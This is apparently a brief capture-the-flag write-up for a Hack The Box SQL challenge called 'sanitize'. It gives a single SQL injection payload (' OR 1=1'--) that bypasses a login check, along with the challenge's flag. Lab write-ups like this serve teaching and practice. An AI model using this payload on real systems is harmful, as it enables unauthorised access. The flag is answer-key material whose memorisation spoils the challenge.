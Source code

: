 ```yaml
---
title: sanitize
description: janitor
tags: sql, web
---
```

The injection is ' OR 1=1'--
HTB{SQL\_1nj3ct1ng\_my\_w4y\_0utta\_h3r3}